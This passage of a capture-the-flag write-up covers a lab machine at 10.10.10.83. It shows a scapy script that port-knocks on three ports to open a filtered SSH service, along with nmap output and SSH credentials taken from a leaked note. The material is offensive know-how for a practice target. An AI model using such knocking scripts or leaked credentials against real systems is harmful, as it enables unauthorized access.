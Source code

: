 ### Port Knocking

The note in the zone transfer gives a hint at a way forward: `prometheus, open a temporal portal to Hades (3456 8234 62431) and St34l_th3_F1re!`

We noticed in the initial nmap that port 22 came back filtered. I’ll hypothesize that those three numbers are a clue for port knocking, and they could open ssh. I’ll also notice that the note was to prometheus (username?), and that the last bit looks like a password.

Wrote a short script to knock, `open_portal_to_Hades.py`:

```

#!/usr/bin/env python

from scapy.all import *
import pyperclip

def SendSyn(ip, port):
    ip=IP(src="10.10.15.99", dst=ip)
    SYN=TCP(sport=7777, dport=port, flags="S", seq=12345)
    send(ip/SYN)

ports = [3456, 8234, 62431]

for port in ports:
    SendSyn("10.10.10.83", port)

print("[+] Portal should be open.\nRun:\nssh prometheus@10.10.10.83\npassword: St34l_th3_F1re!")
print("[*] Putting password on system clipboard. Ctrl + Shift + v to paste")
pyperclip.copy('St34l_th3_F1re!\n')

```

To demonstrate the script, I’ll start with an nmap showing ssh on 22 filtered:

```

root@kali# nmap -p- -sT --min-rate 5000 10.10.10.83
Starting Nmap 7.70 ( https://nmap.org ) at 2018-05-21 21:15 EDT
Nmap scan report for 10.10.10.83
Host is up (0.095s latency).
Not shown: 65531 closed ports
PORT     STATE    SERVICE
22/tcp   filtered ssh
53/tcp   open     domain
80/tcp   open     http
2222/tcp open     EtherNetIP-1

```

Now, run the script:

```

root@kali# ./open_portal_to_Hades.py
.
Sent 1 packets.
.
Sent 1 packets.
.
Sent 1 packets.
[+] Portal should be open.
Run:
ssh prometheus@10.10.10.83
password: St34l_th3_F1re!

```